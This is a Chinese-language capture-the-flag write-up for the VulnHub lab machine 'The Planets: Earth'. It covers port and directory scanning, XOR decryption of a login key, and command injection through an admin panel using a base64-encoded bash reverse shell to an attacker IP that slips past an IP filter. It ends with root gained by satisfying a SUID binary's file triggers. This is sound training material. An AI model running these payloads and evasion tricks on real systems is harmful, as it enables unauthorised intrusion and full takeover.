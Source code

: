 ```yaml
---
sidebar_position: 3
tags: [Easy, Linux, 密码学, 命令执行, SUID, 逆向]
title: "The Planets: Earth"
sidebar_label: "The Planets: Earth"
---
```

# The Planets: Earth
## 端口扫描
```bash
jtz@attacker:~/CTF/VulhHub$ nmap -sTCV -p- --min-rate 1000 192.168.1.11
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-17 15:55 CST
Nmap scan report for earth (192.168.1.11)
Host is up (0.0025s latency).
Not shown: 65398 filtered tcp ports (no-response), 134 filtered tcp ports (host-unreach)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b2c3fdc8b76e9217bd05624dfbee9a8 (ECDSA)
|_  256 b03c723b722126ce3a84e841ecc8f841 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-title: Bad Request (400)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-title: Bad Request (400)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.14 second
```
## 443
从上面的扫描结果中我们可以看到一个 `DNS:earth.local, DNS:terratest.earth.local` 说明存在DNS 的情况, 之后开始进行目录扫描
- 访问主页面后, 我发现这是存在一些加密的内容, 同时这里也表明这是一个加密信息的地方, 之后经过一些测试我猜测这是 XOR 加密, 那么我们应该去解密这些密文信息
- 从扫描结果中可以发现一个 admin 目录这里告诉我们需要登陆
```bash
jtz@attacker:~/CTF/VulhHub$ gobuster dir  -u https://earth.local -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -k===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://earth.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2023/12/17 17:33:20 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
```
之后开始扫描子站点, 观察扫描的结果在其中发现了 `robots.txt` 之后查看 robots.txt 中内容, 我在其中发现 `/testingnotes.*`
```bash
jtz@attacker:~/CTF/VulhHub$ gobuster dir  -u https://terratest.earth.local -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://terratest.earth.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
2023/12/17 17:29:09 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 199]
/index.html           (Status: 200) [Size: 26]
/robots.txt           (Status: 200) [Size: 521]
```
之后我查看了 `testingnotes.txt` 在其中发现了一些内容:

- 登陆的用户名称 : terra
- 使用 XOR 加密, 符合我们的推测
- 一个新的文件 `testdata.txt` : 根据前后内容提示来看这是一个原文, 也就是说原本的密文中有一个是该项的加密信息
```bash
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```
之后进行解密, 最终我获取到一个 `Key: earthclimatechangebad4humans`
![20240524133639](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133639.png)
随后我将 Key 作为用户的密码进行登陆发现可以, 登陆之后发现是一个命令执行的地方
![20240524133655](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133655.png)
## 后渗透
### apache
我们只需要利用上面的命令执行进行利用即可, 但是这里做了限制不允许外连, 所以我们需要编码为 base64 进行利用
:::tip
登陆后查看源码发现其对我们输入的内容正则匹配其中的 IP 地址
:::
```bash
csrfmiddlewaretoken=to9lvTx1MEsuwOBdspfOp6KEXPq63VgERsKZobd8MH4Kuu3eK2fJrDyDAh0On4LG&cli_command=echo+'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS43LzQ0NDQgMD4mMQ=='|base64+-d|bash
```
![20240524133736](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133736.png)
### apache --> root
![20240524133755](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133755.png)
在这里可以发现存在两个未知的 SUID 程序, 之后据此我查看程序, 在此可以看到对应的程序会重置用户的密码但是需要一些条件才可以进行
```bash
(remote) apache@earth:/tmp$ strings  /usr/bin/reset_root
/lib64/ld-linux-x86-64.so.2
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```
将对应的程序下载到本地并使用反编译工具打开, 分析其结构, 通过此可以知道对应的程序需要判断三个条件
```bash
puts("CHECKING IF RESET TRIGGERS PRESENT...");
magic_cipher(&local_1098,local_58,local_1078,0x11,0x12);
local_1067 = 0;
iVar1 = access(local_1078,0);
if (iVar1 == 0) {
    local_c = local_c + 1;
}
magic_cipher(&local_10b8,local_58,local_1078,0x11,0x12);
local_1067 = 0;
iVar1 = access(local_1078,0);
if (iVar1 == 0) {
    local_c = local_c + 1;
}
magic_cipher(&local_10c5,local_58,local_1078,0xd,0x12);
local_106b = 0;
iVar1 = access(local_1078,0);
if (iVar1 == 0) {
    local_c = local_c + 1;
}
if (local_c == 3) {
    puts("RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth");
    setuid(0);
    system("/usr/bin/echo \'root:Earth\' | /usr/sbin/chpasswd");
}
else {
    puts("RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.");
}
```
然后我使用 ltrace 程序进行打开, 获取到了对应的条件
```bash
jtz@attacker:~/CTF/VulhHub$ ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                      = 38
access("/dev/shm/kHgTFI5G", 0)                                                                   = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                   = -1
access("/tmp/kcM0Wewe", 0)                                                                       = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                      = 44
+++ exited (status 0) +++
```
之后创建对应的文件, 再执行程序应该就可以了
```bash
(remote) apache@earth:/tmp$ touch /dev/shm/kHgTFI5G
(remote) apache@earth:/tmp$ touch /dev/shm/Zw7bV9U5
(remote) apache@earth:/tmp$ touch /tmp/kcM0Wewe
(remote) apache@earth:/tmp$ /usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
(remote) apache@earth:/tmp$ su root
Password: 
(remote) root@earth:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```